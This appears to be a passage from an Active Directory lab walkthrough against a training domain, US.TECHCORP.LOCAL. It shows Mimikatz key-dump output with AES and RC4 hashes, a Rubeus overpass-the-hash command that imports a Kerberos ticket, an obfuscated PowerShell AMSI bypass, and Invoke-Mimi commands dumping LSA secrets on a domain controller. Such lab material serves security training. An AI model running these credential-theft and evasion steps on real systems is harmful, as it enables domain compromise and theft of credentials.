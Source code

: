 ```
SID               : S-1-5-18

         * Username : us-helpdesk$ 👤
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       b654a7108a6e384d0e8a57db97dc10afed802f40b419eb7688e821478ccdaf9f 🔑
           rc4_hmac_nt       76c3848cc2e34ef0a8b5751f7e886b8e

[SNIP]

Authentication Id : 0 ; 1517629 (00000000:0017283d)
Session           : RemoteInteractive from 2
User Name         : helpdeskadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 7/2/2024 2:25:32 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1120

         * Username : helpdeskadmin 👤
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 🔑
           rc4_hmac_nt       94b4a7961bb45377f6e7951b0d8630be

[SNIP]
```

Reuse the AES keys of `helpdeskadmin` and use `Find-PSRemotingLocalAdminAccess` for hunting local admin privileges.

Run the OverPass-the-hash command using Rubeus from an elevated shell.

```
C:\Windows\System32> echo %Pwn%

asktgt

C:\Windows\System32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:helpdeskadmin /aes256:f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

[SNIP]

[*] Action: Ask TGT

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/US.TECHCORP.LOCAL
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  helpdeskadmin
  UserRealm                :  US.TECHCORP.LOCAL
  StartTime                :  4/25/2025 6:02:41 AM
  EndTime                  :  4/25/2025 4:02:41 PM
  RenewTill                :  5/2/2025 6:02:41 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  OF/qVyRqsw13QYBfSvhanUi1L9rc4Awa3cY6GW54cCw=
  ASREP (key)              :  F3AC0C70B3FDB36F25C0D5C9CC552FE9F94C39B705C4088A2BB7219AE9FB6534
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'